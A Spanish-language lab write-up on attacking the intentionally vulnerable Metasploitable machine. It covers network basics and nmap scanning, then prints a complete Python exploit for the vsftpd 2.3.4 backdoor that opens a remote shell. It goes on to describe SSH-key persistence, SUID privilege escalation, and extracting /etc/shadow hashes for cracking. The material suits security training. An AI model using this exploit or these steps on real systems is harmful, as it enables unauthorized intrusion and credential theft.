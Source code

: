 ```yaml
---
{"dg-publish":true,"permalink":"/linux/metasploitable/","dgPassFrontmatter":true}
---
```



Es una `máquina` diseñada para para probar herramientas de `seguridad` y demostrar `vulnerabilidades` comunes.

- SO: Ubuntu Linux
- Vulnerabilidades intencionadas

---
## Que es una IP?

Una dirección `IP` es un identificador numérico único asignado a cada dispositivo conectado a una red, funciona como una especie de "*dirección*" para que los dispositivos puedan encontrarse y comunicarse entre sí dentro de la `red`. También es posible cambiar una dirección IP, dependiendo de si se trata de una IP `pública` o `privada`.

- IP pública: Una dirección que identifica tu red
- IP privada: Una dirección que identifica un dispositivo

![Pasted image 20250615181619.png](/img/user/Pasted%20image%2020250615181619.png)

## Que es ARP?

`ARP` es un *protocolo* que se utiliza para asignar direcciones `MAC` a direcciones IP en una red de área local (LAN). Esto funciona como un `traductor/intérprete` entre el protocolo de internet (IP) y la capa de enlace de datos (MAC). Es esencial para que los dispositivos se comuniquen dentro de la red, ya que las direcciones IP son lógicas y las direcciones MAC son físicas.
![Pasted image 20250615193448.png](/img/user/Pasted%20image%2020250615193448.png)

## Que es el ARP-SCAN?

Ya hablamos del protocolo ARP, ahora vamos a ver la herramienta utilizada para los protocolos ARP.
Es una herramienta de línea de comandos que se utiliza para descubrir hosts en una red local enviando paquetes `Addres Resolution Protocol` y analizando sus respuestas. Permitiendo a los usuarios identificar dispositivos activos y sus direcciones MAC y IP dentro de la red.

##### Como funciona?
- Si un dispositivo en la red está utilizando esa dirección IP, responderá con una solicitud ARP de vuelta, indicando su dirección MAC.
- `arp-scan` recopila estas respuestas y muestra la información del dispositivo, incluyendo su dirección IP y MAC.
- Envía solicitud ARP con la dirección IP de destino a cada dirección IP dentro de un rango especificado

Ejemplo:
![Pasted image 20250615194102.png](/img/user/Pasted%20image%2020250615194102.png)

---

## Que es Netcat?

`Netcat` es una herramienta de línea de comandos que sirve para escribir y leer datos en la red. Conocida por ser la `navaja suiza de las redes` debido a que podemos hacer transferencia de datos a través de los protocolos `TCP/UDP`, su funcionamiento depende de que la comunicación IP entre dispositivos esté correctamente establecida. Aquí es donde entra el protocolo ARP (`Address Resolution Protocol`), que trabaja en la capa de enlace de datos. ARP se encarga de resolver direcciones IP a direcciones MAC dentro de una red local. Cuando usas *Netcat* para conectarte a otra máquina en la misma red, primero se realiza una consulta ARP para saber a qué dirección MAC enviar los paquetes. Sin una resolución ARP exitosa, la conexión de Netcat no podría establecerse.

Ejemplo
![Pasted image 20250615195303.png](/img/user/Pasted%20image%2020250615195303.png)

---

## Escaneo y Enumeración:

Usaremos NMAP para para escanear los puertos abiertos y así poder identificar servicios en ejecución.

![Pasted image 20250615200116.png](/img/user/Pasted%20image%2020250615200116.png)

Como vector de ataque podríamos probar la versión del FTP en el cual si buscamos en internet tenemos varios documentos e informes acerca de la vulnerabilidad `vstftpd 2.3.4` en el cuál el exploit consiste en un `backdoor` que fue introducido por un atacante en el código fuente oficial del servidor FTP vsftpd. Este exploit permite al atacante obtener una shell remota en el servidor vulnerable.

código del exploit:
``` python
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523

#!/usr/bin/python3   
                                                           
from telnetlib import Telnet 
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()

```

### Claves ID_RSA?
Es una clave privada del protocolo SSH, utilizado para autenticarse sin necesidad de una contraseña. Esto mismo sería para aplicar persistencia en la máquina.
![Pasted image 20250615204510.png](/img/user/Pasted%20image%2020250615204510.png)

Para ello, luego de mantener persistencia en la máquina podríamos elevar privilegios de manera local.

Como recurso de escalado de privilegios tenemos esta página llamada [GTFoBins](https://gtfobins.github.io) y [HackTricks](https://book.hacktricks.wiki/es/index.html) para múltiples técnicas de Hacking Ético.

Ejemplo de explotación de binarios SUID:
![Pasted image 20250615205929.png](/img/user/Pasted%20image%2020250615205929.png)

En la página de GTFoBins, tenemos varias técnicas de explotación de binarios SUID para buscar cual es la más acorde para escalar privilegios.

![Pasted image 20250615210130.png](/img/user/Pasted%20image%2020250615210130.png)

Luego de copiar el SUID correcto, queda elevar nuestros privilegios:
![Pasted image 20250615210243.png](/img/user/Pasted%20image%2020250615210243.png)
Y listo, ya somos ROOT, pero? no sabemos la contraseña de ROOT, ya que ahora tenemos privilegios máximos en el sistema podemos leer el archivo **/etc/shadow**

![Pasted image 20250615210515.png](/img/user/Pasted%20image%2020250615210515.png)
Y si nos damos cuenta la contraseña esta formato **HASH**, a lo cual nosotros tendremos que intentar fusionar los archivos `/etc/passwd` y `/etc/shadow` para que pueda ser entendido por herramientas de `crackeo de contraseñas` por ejemplo, `John The Ripper` y/o `Hashcat`, etc. Lo podemos realizar con el comando *unshadow*.

Luego podríamos almacenar estas credenciales obtenidas en unas notas de nuestra maquina principal por si en algún momento queremos mantener la persistencia del usuario ROOT.

## Que aprendimos?

Aprende que no todos las aplicaciones son seguras realmente, pudimos ingresar al protocolo `FTP` mediante un exploit que está en internet (*debido a que una empresa fue comprometida externamente*) más especifico mediante un `Backdoor` y hemos logrado mantener persistencia dentro de la maquina, haciendo uso de llaves privadas ID_RSA, luego intentamos elevar nuestros privilegios a lo cual mediante los SIUD mal configurados logramos obtener acceso máximo como ROOT y logramos leer las contraseñas de todos los usuarios de la máquina.


![fin.gif](/img/user/fin.gif)
